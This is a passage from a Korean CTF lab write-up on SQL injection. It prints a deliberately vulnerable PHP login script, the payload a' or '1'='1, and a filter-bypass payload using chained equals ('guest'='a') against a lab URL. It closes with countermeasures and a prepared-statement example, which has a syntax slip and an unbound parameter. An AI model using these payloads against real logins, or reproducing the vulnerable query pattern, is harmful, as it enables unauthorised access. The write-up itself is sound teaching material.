결과적으로 이 문제에서 userid와 userpw의 값을 이용해서 SQLInjection공격을 수행하는데 admin문자열을 다른 아스키코드나 유니코드 등을 이용해 우회를 해서 공격을 수행할 수 있고 아니면 또다른 방법을 사용해 최상단 값을 가져와 수행할 수 있게 하는 방법도 찾으면 공격에 성공할 것이다.

<br>

#### 개념증명(SQLInjection)
SQLInjection의 두번째 문제를 풀기전에 첫번째 문제로 간단한 SQLInjection 쿼리를 날려보겠다.

```php
<?php
include('dbconn.php');

if(isset($_GET["userid"]) && isset($_GET["userpw"])){
    $mysqli = new mysqli($host, $sqli1_username, $sqli1_password, $database);

    if ($mysqli->connect_error) {
        die("connection fail:" . $mysqli->connect_error);
    }

    $query = "SELECT userid FROM sqli1_table where userid='$_GET[userid]' and userpw='$_GET[userpw]'";
    $result = $mysqli->query($query);
    $userid = "";
    
    if ($result->num_rows > 0) {
        while ($row = $result->fetch_assoc()) {
            $userid = $row['userid'];
        }
    }
    $mysqli->close();

    if($userid == "admin"){
        echo file_get_contents('/sqli1_flag.txt');
    } else {
        echo $userid;
    }
}
?>
<br><br>
<?php highlight_file(__FILE__); ?>
```
위 코드는 첫번째 SQLInjection문제의 코드이다. 코드를 보다시피 위에서 분석했던 코드와는 다르게 아무런 SQLInejction에대한 필터링이 되어있지 않다.

따라서 파라미터로 userid와 userpw를 보낼때 `userid=admin&userpw=a' or '1'='1` 이런 파라미터를 보내면 쿼리문에 다음과 같이 들어간다. `SELECT userid FROM sqli1_table where userid='admin' and userpw='a' or '1'='1'"`

이 쿼리문을 분석해보자면 select문에서 userid를 출력할 것이고, from문에서 sqli1_table이라는 테이블에 대해 검색을 할 것이다. 그다음 가장 중요한 부분인 where문인데 userid에 admin을 넣었으니 userid가 admin인 데이터를 선택했다. 그리고 and로 인해 뒤쪽 userpw에 대해서도 함께 일치하는 데이터를 선택할 것이다. 따라서 여기까지하면 userid는 admin이고 userpw가 a인 데이터를 sqli_table에서 찾을 것이다. 하지만 그 뒤에 or연산자로 인해 '1'='1'를 또 연산하고 있다. 결과적으로 앞에서 연산한 것들 또는 True에 대한 것을 출력한다는 것이다. 즉 or 연산에서 뒤에부분이 True이니 앞 연산과는 상관없이 모든 값이 출력이 될 것이다. 이로써 admin값도 출력하게 돼 flag가 출력이 된다.

<br>


이런식으로 SQLInjection이 진행이 된다는것을 보여줬다. 그렇다면 SQLInjection의 두번째 문제에서도 이런방식을 사용해 admin을 출력시키면 된다. 하지만 두번째 문제에서는 admin과, or, 숫자 등이 필터링이 되어있기에 위와같은 방법을 사용할 수 없다. 그렇다면 필터링을 할때는 admin이지만 결과적으로 봤을때 admin인 값을 넣은뒤 출력하는 공격을 할 수 있다. 

하지만 이번 공격에는 어쩌다가 발견한 새로운 기법을 통해 공격을 할것이다.

`http://2023whs.arang.kr:9200/sqli2.php?userid=guest'='guest&userpw=a'='a` 바로 이 쿼리를 사용하는 것이다. 이것을 전체적인 쿼리로 바꿔봤을 때 `SELECT userid from sql2_table where userid='guest'='a' and userpw='a'='a'` 이러한 쿼리문이 완성이된다. userid와 userpw를 보면 = 연산을 한번에 2개를 사용하는 것을 확인할 수 있다. 여기서 등호가 2개가 사용됬을 때 연산이 어떻게 이루어질지 혼자 가설을 세워봤다. i ) userid의 오른쪽 두 부분인 'guest'='a'가 먼저 계산이 된뒤 userid에 넣어지는것이다. 오른쪽 부분인 'guest'='a'가 연산이 되면 두 문자열이 일치하지 않으므로 false가 될 것이다. 그렇다면 userid에 flase가 넣어지면 어떻게 될까? mysql를 구축하고 테스트를 해봤다.

<br>


테이블의 모든 데이터들이 출력이 됐다.

만약 True면 어떻게 될까? 테스트를 해봤다.

<br>


아무것도 출력이 되지 않았다.

그렇다면 이 가설이 조금 유력해진다. 다른 경우의 수를 생각해서 userid에 'guest'='guest'를 넣어봤다. 나의 가설대로라면 두 문자열은 같기 때문에 true가 userid에 넣어질 것이기때문에 아무것도 출력이 되지 않을 것이다.

<br>


하지만 똑같이 flag가 출력이 됐으므로 이 가설이 귀류법으로인해 틀렸다는 것이 증명됬다. 두번째 가설을 세워봤다. ii ) 등호가 2번 사용이 될 경우 참 거짓 상관없이 모든 결과가 출력이 될것이다. 이것을 증명하기 위해서 나의 서버에서 `userid='guest'='b' and userpw='c'='d'`를 쿼리로 넣어봤다.

<br>


이러한 결과가 출력이 되었다. 하지만 현재 나의 데이터 베이스에는 guest guest, admin admin, asdfasdf asdfasdf가 들어가 있지만 guest만 제외된 채로 다른 모든 데이터들이 출력이 되었다. 즉 **모든** 데이터들이 출력이 되는것은 아니라는 것이 되었다. 하지만 쿼리를 봤을 때 userid에 첫번째 부분에 guest를 넣었는데 guset가 제외된것을 확인했다. 따라서 2번째 가설에서 좀 보완을 해봤다. ii-1 ) 등호를 두번사용할 경우 참과 거짓 상관없이  첫번째 값과 일치하는 데이터를 제외한 모든 값이 출력이 될것이다. 이것을 증명하기 위해 userpw에 첫번째 부분에 admin을 넣어 쿼리를 넣어봤다. `userid='guest'='b' and userpw='admin'='d'` 이렇게 쿼리를 입력할 경우 테이블에서 guest와 admin을 제외한 모든 테이블이 출력될 것이다.

<br>


결과로 위와같이 예상대로의 결과가 나왔다. 추가로 ``userid='a'='guest' and userpw='admin'='d'``
뒤쪽 부분에도 guest를 넣어 테스트를 해봤다. 

<br>


가설 ii-2 번에서 벗어나이 않는 결과가 출력이 됐다. 

요약해서 말하자면 확실한것은 아니지만 내가 하나하나 쿼리를 직접 날려서 확인해본결과 **등호가 2번 사용이 될 경우 첫번째 부분에 들어간 값을 제외한 테이블의 모든 값들을 출력한다.** 라는것이다. 이로써 두번째 SQLInjection 문제에서 `userid='guest'='a' and userpw='a'='a'`를 입력하므로써 테이블에서 guest를 제외한 admin과함께 모든 데이터들이 출력돼 flag를 획득할 수 있었다.

<br>

#### 대응방안(SQLInjection)
대응방안으로는 SQLInejction공격에 사용될 만한 문자열과, 특수문자를 필터링하는 방법과, DB사용자에게 최소한의 권한만 할당함으로써 다른 데이터에 접근을 차단하는 방법, 다른 공격기법과 마찬가지로 WAF를 구축해 보안하는 방법이 있다.

SQLInjection 시큐어 코딩은 다음과 같이 할 수 있다.

<br>

```php
<?php

$data = $db -> prepare('SELECT userid FROM sql2_table where userid=(:userid) LIMIT 1;') # 바인딩 변수 사용, 첫번째 쿼리문만 실행
$data -> execute();
$row = $data -> fetch();

?>
```
위의 코드는 DVWA의 imposible level의 SQLInjection의 시큐어코딩된 코드를 발췌했다. 위와같이 코딩을 하면 값을 받을 때 바인딩 변수를 사용해 보다 안전하게 쿼리가 실행될 수 있고 union이 사용돼 2개의 쿼리문이 들어올때 처음 쿼리만 실행되는 등 SQLInjection공격을 최대한 막을 수 있다.

<br>

## Reference
DreamHack - [https://dreamhack.io/](https://dreamhack.io/)

레드팀플레이북 - [https://www.xn--hy1b43d247a.com/critical-info-infrastructure/01-account-management/csrf-token](https://www.xn--hy1b43d247a.com/critical-info-infrastructure/01-account-management/csrf-token)